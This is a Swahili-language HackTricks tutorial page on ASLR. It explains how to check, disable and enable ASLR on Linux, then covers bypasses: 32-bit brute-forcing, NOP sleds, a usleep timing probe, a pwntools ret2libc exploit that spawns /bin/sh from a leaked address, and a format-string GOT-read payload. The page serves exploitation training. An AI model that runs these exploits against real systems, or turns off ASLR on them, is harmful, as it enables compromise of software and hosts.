 # ASLR

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Taarifa Msingi

**Urambazaji wa Mfumo wa Nafasi ya Anwani (ASLR)** ni mbinu ya usalama inayotumika kwenye mifumo ya uendeshaji kwa kuchanganya **anwani za kumbukumbu** zinazotumiwa na michakato ya mfumo na maombi. Kwa kufanya hivyo, inafanya iwe ngumu sana kwa mkaidi kutabiri mahali pa michakato na data maalum, kama vile stack, heap, na maktaba, hivyo kupunguza aina fulani za mbinu za kudukua, hasa mlipuko wa ujazo.

### **Kuangalia Hali ya ASLR**

Ku **angalia** hali ya ASLR kwenye mfumo wa Linux, unaweza kusoma thamani kutoka faili ya `/proc/sys/kernel/randomize_va_space`. Thamani iliyohifadhiwa kwenye faili hii inaamua aina ya ASLR inayotumiwa:

* **0**: Hakuna kuchanganyikiwa. Kila kitu ni tuli.
* **1**: Urambazaji wa kuchanganyikiwa wa kiasi. Maktaba zilizoshirikiwa, stack, mmap(), ukurasa wa VDSO zinachanganyikiwa.
* **2**: Urambazaji kamili. Mbali na vitu vilivyochanganyikiwa na urambazaji wa kiasi, kumbukumbu inayosimamiwa kupitia `brk()` inachanganyikiwa.

Unaweza kuangalia hali ya ASLR kwa amri ifuatayo:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Kulemaza ASLR**

Ili **kulemaza** ASLR, weka thamani ya `/proc/sys/kernel/randomize_va_space` kuwa **0**. Kulemaza ASLR kwa ujumla siyo jambo linalopendekezwa isipokuwa katika mazingira ya majaribio au kutatua matatizo. Hapa ndivyo unavyoweza kulemaza:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Unaweza pia kulemaza ASLR kwa utekelezaji na:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Kuwezesha ASLR**

Ili **kuwezesha** ASLR, unaweza kuandika thamani ya **2** kwenye faili ya `/proc/sys/kernel/randomize_va_space`. Kawaida hii inahitaji mamlaka ya mzizi. Kuwezesha ubadilishaji kamili unaweza kufanywa kwa amri ifuatayo:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Uthabiti Kupitia Kuzimwa Upya**

Mabadiliko yaliyofanywa kwa kutumia amri za `echo` ni ya muda na yatarejeshwa wakati wa kuzimwa upya. Ili kufanya mabadiliko yawe ya kudumu, unahitaji kuhariri faili ya `/etc/sysctl.conf` na kuongeza au kuhariri mstari ufuatao:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Baada ya kuhariri `/etc/sysctl.conf`, tumia mabadiliko kwa:
```bash
sudo sysctl -p
```
Hii itahakikisha mipangilio yako ya ASLR inabaki hata baada ya kuzimwa na kuzimwa upya.

## **Kupita**

### Kufanya nguvu kwa biti 32

PaX inagawa nafasi ya anwani ya mchakato katika **makundi 3**:

* **Msimbo na data** (iliyoanzishwa na isiyoanzishwa): `.text`, `.data`, na `.bss` —> **biti 16** za entropy katika kipengele cha `delta_exec`. Kipengele hiki kinaanzishwa kwa nasibu kila mchakato na kuongezwa kwa anwani za awali.
* **Kumbukumbu** iliyotengwa na `mmap()` na **maktaba zinazoshirikiwa** —> **biti 16**, inayoitwa `delta_mmap`.
* **Mtungo** —> **biti 24**, inayoitwa `delta_stack`. Walakini, inatumia **biti 11** kwa ufanisi (kutoka kwa byte ya 10 hadi ya 20 pamoja), imepangwa kwa **biti 16** —> Hii inasababisha **anwani halisi 524,288 za mtungo**.

Data iliyotangulia ni kwa mifumo ya biti 32 na entropy iliyopunguzwa mwishowe inawezesha kuvuka ASLR kwa kujaribu tena na tena hadi shambulio litakapokamilika kwa mafanikio.

#### Mawazo ya kufanya nguvu:

* Ikiwa una kutosha kwa kutosha kuhifadhi **kifuniko kikubwa cha NOP kabla ya msimbo wa kabati**, unaweza tu kufanya nguvu anwani kwenye mtungo hadi mchakato **unapovuka sehemu ya kifuniko cha NOP**.
* Chaguo lingine kwa hili ikiwa kujazwa sio kubwa na shambulio linaweza kutekelezwa kwa ndani ni kuingiza **kifuniko cha NOP na msimbo wa kabati katika mazingira ya pembejeo**.
* Ikiwa shambulio ni la ndani, unaweza kujaribu kufanya nguvu kwa anwani ya msingi ya libc (yenye manufaa kwa mifumo ya biti 32):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Kama unashambulia seva ya mbali, unaweza kujaribu **kuburuta anwani ya kazi ya `libc` ya `usleep`**, ukitoa kama hoja 10 (kwa mfano). Ikiwa wakati fulani **seva inachukua sekunde 10 zaidi kujibu**, umepata anwani ya kazi hii.

{% hint style="success" %}
Katika mifumo ya 64bit entropy ni kubwa zaidi na hili halikubaliki.
{% endhint %}

### Ukiwa na uvujaji

* **Changamoto ni kutoa uvujaji**

Ukipewa uvujaji (changamoto rahisi za CTF), unaweza kuhesabu makadirio kutoka kwake (ukidhani kwa mfano unajua toleo sahihi la libc linalotumiwa kwenye mfumo unaoexploit). Udukuzi huu wa mfano umetolewa kutoka [**mfano kutoka hapa**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (angalia ukurasa huo kwa maelezo zaidi):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Kwa kutumia kuzidi kwa buffer, ingewezekana kutumia **ret2plt** kufichua anwani ya kazi kutoka kwa libc. Angalia:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Kama ilivyo kwa ret2plt, ikiwa una usomaji wa kiholela kupitia udhaifu wa format strings, ni rahisi kufichua anwani ya kazi ya **libc function** kutoka kwa GOT. Mfano ufuatao [**unapatikana hapa**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Unaweza kupata habari zaidi kuhusu Format Strings arbitrary read katika:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret

Jaribu kukiuka ASLR kwa kutumia anwani ndani ya stack:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}
